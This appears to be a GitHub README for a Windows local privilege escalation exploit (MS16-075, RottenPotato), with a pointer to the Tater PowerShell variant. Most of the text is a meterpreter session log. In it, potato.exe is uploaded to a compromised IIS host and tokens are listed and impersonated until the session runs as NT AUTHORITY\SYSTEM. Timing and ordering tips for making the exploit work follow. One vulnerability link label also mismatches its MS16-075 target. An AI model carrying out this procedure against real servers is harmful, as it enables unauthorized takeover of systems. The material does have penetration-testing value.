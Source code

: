 # MS16-075 

- The potato.exe was from [@FoxGlove](https://github.com/foxglovesec/RottenPotato)
- For a technical overview of this [exploit]( https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

Vulnerability reference:
 * [MS16-135](https://technet.microsoft.com/library/security/MS16-075)
 

## RottenPotato

Local Privilege Escalation from Windows Service Accounts to SYSTEM

## Videos for example
- [SQL Server](https://www.youtube.com/watch?v=3CPdKMeB0UY) 
- [IIS](https://www.youtube.com/watch?v=wK0r-TZR7w8)

## Usage of msf
```
msf exploit(web_delivery) > set ExitOnsession false
msf exploit(web_delivery) > run
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > getprivs
===========================================================
Enabled Process Privileges
===========================================================
 SeAssignPrimaryTokenPrivilege

meterpreter > upload  /root/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Get a shell has Privileges:SeAssignPrimaryTokenPrivilege

![iis](img/IIS_shell.png)

### Get system Privilege

![potato](img/potato.png)
***
- It is important to impersonate the token (or run list_tokens -u) quickly after runnning the binary.
- It is also important to follow the order of the steps. 
- Make sure you "use incognito" before running the binary.

***

## Tater

a PowerShell implementation of the Hot Potato Windows Privilege Escalation exploit

- The Tater was from [@Kevin-Robertson](https://github.com/Kevin-Robertson/Tater)
![win10](img/win10.png)

